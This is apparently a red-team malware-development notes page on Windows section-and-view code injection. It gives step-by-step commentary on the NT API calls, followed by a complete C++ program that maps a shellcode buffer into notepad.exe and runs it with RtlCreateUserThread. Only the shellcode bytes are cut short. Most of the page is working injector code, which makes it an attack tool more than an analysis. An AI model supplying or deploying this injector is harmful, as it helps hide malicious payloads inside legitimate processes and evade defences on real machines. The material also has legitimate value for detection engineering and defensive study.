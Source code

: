 ```yaml
---
title: Sections and Views Injection
category: Maldev-Code Injection
order: 2
---
```


This technique has a different way to inject the code on a remote process. MapView Code Injection uses typicall internal operation between processes. 

It is common that one process create a new section and shares the data with another process. Every memory section corresponds to one or more views. A view of a section referes to the specific part of the sectio htat is visible and accesible to a process.

So we can map a section to the remote process and create a view in order to share the shellcode to the remote process.

* `NtCreateSection`: Create a new page-file-backed section.
* `NtMapViewOfSection`: Map the section view on the local process.
* `memcpy`: Copy the payload to the section.
* `NtMapViewOfSection`: Map the same section view in the target process.
* `RtlCreateUserThread`: Execute the payload on the remote process.


# Analysis

First we need to create a Section handle on our local process with `PAGE_EXECUTE_READWRITE` rights.


```cpp
status = pNtCreateSection(&hSection, SECTION_ALL_ACCESS, NULL, (PLARGE_INTEGER) &payload_len, PAGE_EXECUTE_READWRITE, SEC_COMMIT, NULL);
```

As we can see the new handle `0xAC` was successfuly created with `FULL_CONTROL` cause the section access was defined with `SECTION_ALL_ACCESS`. We only need `SECTION_MAP_READ` `SECTION_MAP_WRITE` and `SECTION_MAP_EXECUTE` but in that example a full control was set.

![](/rtnotes/images/sections_01.png)

Once created the section we need to map to a new local view. A `RW` rights are needed in order to copy the payload to the section.

```cpp
status = pNtMapViewOfSection(hSection, GetCurrentProcess(), &pLocalView, NULL, NULL, NULL, (SIZE_T *)&payload_len, ViewUnmap, NULL, PAGE_READWRITE);
```

When the section is already mapped, we can see the memory space on the local process.

![](/rtnotes/images/sections_02.png)

Now the payload can be copied to the local view.

![](/rtnotes/images/sections_03.png)

In order to execute the payload on a remote process we need to create a remote view of the same section. To do that we need the handler of the target process.

```cpp
pid = FindProcess("notepad.exe");
hProc = OpenProcess( PROCESS_CREATE_THREAD | PROCESS_QUERY_INFORMATION | PROCESS_VM_OPERATION | PROCESS_VM_READ | PROCESS_VM_WRITE, FALSE, (DWORD) pid);
status = pNtMapViewOfSection(hSection, hProc, &pRemoteView, NULL, NULL, NULL, (SIZE_T *)&payload_len, ViewUnmap, NULL, PAGE_EXECUTE_READ);
```

As we can see the section was successfuly mapped to the remote process and the payload was delivered on memory.

![](/rtnotes/images/sections_04.png)

Finally we can use `RtlCreateUserThread` to execute the remote view.

```cpp
pRtlCreateUserThread(hProc, NULL, FALSE, 0, 0, 0, pRemoteView, 0, &hThread, &cid);
if(hThread != NULL){
    WaitForSingleObject(hThread, 500);
    CloseHandle(hThread);
}
```

![](/rtnotes/images/sections_05.png)

# Code

Example of MapView injection:

```cpp
#include <Windows.h>
#include <stdio.h>
#include <tlhelp32.h>

typedef struct _UNICODE_STRING {
  USHORT Length;
  USHORT MaximumLength;
  PWSTR  Buffer;
} UNICODE_STRING, *PUNICODE_STRING;

typedef struct _CLIENT_ID {
	HANDLE UniqueProcess;
	HANDLE UniqueThread;
} CLIENT_ID, *PCLIENT_ID;

typedef struct _OBJECT_ATTRIBUTES {
  ULONG Length;
  HANDLE RootDirectory;
  PUNICODE_STRING ObjectName;
  ULONG Attributes;
  PVOID SecurityDescriptor;
  PVOID SecurityQualityOfService;
} OBJECT_ATTRIBUTES, *POBJECT_ATTRIBUTES;

typedef enum _SECTION_INHERIT {
	ViewShare = 1,
	ViewUnmap = 2
} SECTION_INHERIT, *PSECTION_INHERIT;	

typedef FARPROC (WINAPI * t_RtlCreateUserThread)(
    HANDLE ProcessHandle,
    PSECURITY_DESCRIPTOR SecurityDescriptor,
    BOOLEAN CreateSuspended,
    ULONG StackZeroBits,
    PULONG StackReserved,
    PULONG StackCommit,
    PVOID StartAddress,
    PVOID StartParameter,
    PHANDLE ThreadHandle,
    PCLIENT_ID ClientId
);

typedef NTSTATUS (NTAPI * t_NtCreateSection)(
    PHANDLE SectionHandle,
    ACCESS_MASK DesiredAccess,
    POBJECT_ATTRIBUTES ObjectAttributes,
    PLARGE_INTEGER MaximumSize,
    ULONG SectionPageProtection,
    ULONG AllocationAttributes,
    HANDLE FileHandle
);

typedef NTSTATUS (NTAPI * t_NtMapViewOfSection)(
	HANDLE SectionHandle,
	HANDLE ProcessHandle,
	PVOID * BaseAddress,
	ULONG_PTR ZeroBits,
	SIZE_T CommitSize,
	PLARGE_INTEGER SectionOffset,
	PSIZE_T ViewSize,
	DWORD InheritDisposition,
	ULONG AllocationType,
	ULONG Win32Protect
);


int FindProcess(const char *procname) {

        HANDLE hProcSnap;
        PROCESSENTRY32 pe32;
        int pid = 0;
                
        hProcSnap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
        if (INVALID_HANDLE_VALUE == hProcSnap) return 0;
                
        pe32.dwSize = sizeof(PROCESSENTRY32); 
                
        if (!Process32First(hProcSnap, &pe32)) {
                CloseHandle(hProcSnap);
                return 0;
        }
                
        while (Process32Next(hProcSnap, &pe32)) {
                if (lstrcmpiA(procname, pe32.szExeFile) == 0) {
                        pid = pe32.th32ProcessID;
                        printf("[+] Process found -> %s : %d\n", procname, pid);
                        break;
                }
        }
                
        CloseHandle(hProcSnap);
                
        return pid;
}


int main(void) {
    
    int pid = 0;
    HANDLE hProc = NULL;
    HANDLE hThread = NULL;
    HANDLE hSection = NULL;
    CLIENT_ID cid;
    PVOID pLocalView = NULL, pRemoteView = NULL;
    NTSTATUS status;
    unsigned char payload[] = {0xfc, 0x48, 0x83,...};
    SIZE_T payload_len = sizeof(payload);
    pid = FindProcess("notepad.exe");
    if(pid){
        hProc = OpenProcess( PROCESS_CREATE_THREAD | PROCESS_QUERY_INFORMATION | PROCESS_VM_OPERATION | PROCESS_VM_READ | PROCESS_VM_WRITE, FALSE, (DWORD) pid);
        if(hProc != NULL){
            // Create a Section
            t_NtCreateSection pNtCreateSection = (t_NtCreateSection) GetProcAddress(GetModuleHandle("NTDLL.DLL"), "NtCreateSection");
            status = pNtCreateSection(&hSection, SECTION_ALL_ACCESS, NULL, (PLARGE_INTEGER) &payload_len, PAGE_EXECUTE_READWRITE, SEC_COMMIT, NULL);
            printf("pNtCreateSection -> status=0x%x\n", status);
            printf("\t hSection=0x%p\n", hSection);
            getchar();
            
            // Create a local view to the new section
            t_NtMapViewOfSection pNtMapViewOfSection = (t_NtMapViewOfSection) GetProcAddress(GetModuleHandle("NTDLL.DLL"), "NtMapViewOfSection");
            status = pNtMapViewOfSection(hSection, GetCurrentProcess(), &pLocalView, NULL, NULL, NULL, (SIZE_T *)&payload_len, ViewUnmap, NULL, PAGE_READWRITE);
            printf("pNtMapViewOfSection -> status=0x%x\n", status);
            printf("\t pLocalView=0x%p\n", pLocalView);
            getchar();

            // Copy the payload to the section
            memcpy(pLocalView, payload, payload_len);
            printf("Payload copied\n");
            getchar();

            // Create a remote view to the new section
            status = pNtMapViewOfSection(hSection, hProc, &pRemoteView, NULL, NULL, NULL, (SIZE_T *)&payload_len, ViewUnmap, NULL, PAGE_EXECUTE_READ);
            printf("pNtMapViewOfSection -> status=0x%x\n", status);
            printf("\t pRemoteView=0x%p\n", pRemoteView);
            getchar();


            // Execute the remote view
            t_RtlCreateUserThread pRtlCreateUserThread = (t_RtlCreateUserThread) GetProcAddress(GetModuleHandle("NTDLL.DLL"), "RtlCreateUserThread");
            pRtlCreateUserThread(hProc, NULL, FALSE, 0, 0, 0, pRemoteView, 0, &hThread, &cid);
            if(hThread != NULL){
                WaitForSingleObject(hThread, 500);
                CloseHandle(hThread);
            }
            
        }
        CloseHandle(hProc);
    }else{
        printf("[-] Notepad.exe not found!\n");
    }
    
    
    return 0;
}
```